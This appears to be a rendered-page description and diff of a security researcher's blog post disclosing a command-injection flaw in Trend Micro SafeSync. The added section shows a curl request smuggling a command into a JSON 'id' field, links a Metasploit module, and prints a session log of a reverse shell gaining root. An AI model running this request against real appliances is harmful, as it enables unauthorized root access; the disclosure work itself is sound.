

Before and after one commit to qkaiser/qkaiser.github.io, a Jekyll site: the page built from _posts/2016-09-06-trendmicro-safesync.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1472 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2336 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update with PoC.

```diff
--- a/_posts/2016-09-06-trendmicro-safesync.markdown
+++ b/_posts/2016-09-06-trendmicro-safesync.markdown
@@ -65,6 +65,36 @@
 }
 {% endhighlight %}
 
+
+From a client point of view, this would happen like this:
+
+<pre style="background-color:black; font-size:10pt;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
+$ curl -X PUT -k -i 'https://safesync.local:3443/api/admin/ad/ad_sync_now' -H 'Accept: */*' -H 'Host: safesync.local:3443' -H 'Content-Type: application/json; charset=utf-8' -H 'Referer: https://safesync.local:3443/admin_ldap_integration.html' -H 'Cookie: mgmtui_session=268b871790680ba79c5de832b18549e6cb908e16' --data '{"id":"1; INJECTED COMMAND"}
+</pre>
+
+### Proof-of-Concept
+
+Take a look at the Metasploit [module](https://github.com/QKaiser/metasploit-framework/blob/master/modules/exploits/linux/http/trendmicro_safesync_exec.rb) I wrote. It works to get a reverse shell as root but in a weird way, using interactive `sh` and FIFO files. This is because the injection happen within a `sh -c 'command'` call, meaning it will raise a "file descriptor not found" if you try the usual reverse shell in bash.
+
+On the plus side, you can always use python if you can't live without tty.
+
+<pre style="background-color:black; font-size:10pt;width: auto; height: auto; word-wrap: break-word; white-space: pre-wrap; overflow:auto; overflow-y: hidden; color:white;font-family:'monospace';">
+msf exploit(trendmicro_safesync_exec) > run
+[*] Started reverse TCP handler on kali.local:4444
+[*] Successfully logged in.
+[*] Exploiting...
+[*] Command shell session 12 opened (kali.local:4444 -> safesync.local:47333) at 2016-09-06 13:19:29 -0400
+[*] Command Stager progress - 100.00% done (690/690 bytes)
+
+/bin/sh: 0: can't access tty; job control turned off
+# id
+uid=0(root) gid=0(root) groups=0(root)
+# python -c 'import pty; pty.spawn("/bin/bash")'
+root@appliance1:/#
+</pre>
+
+I doubt I'll try to merge the module upstream until I get it to work in a generic way (support for meterpreter stager).
+
 ### Conclusion
 
 Once again, Trend Micro vulnerability team was great in handling this coordinated disclosure.
```
Also changed, not shown: other parts of _posts/2016-09-06-trendmicro-safesync.markdown (+2 -12 lines).
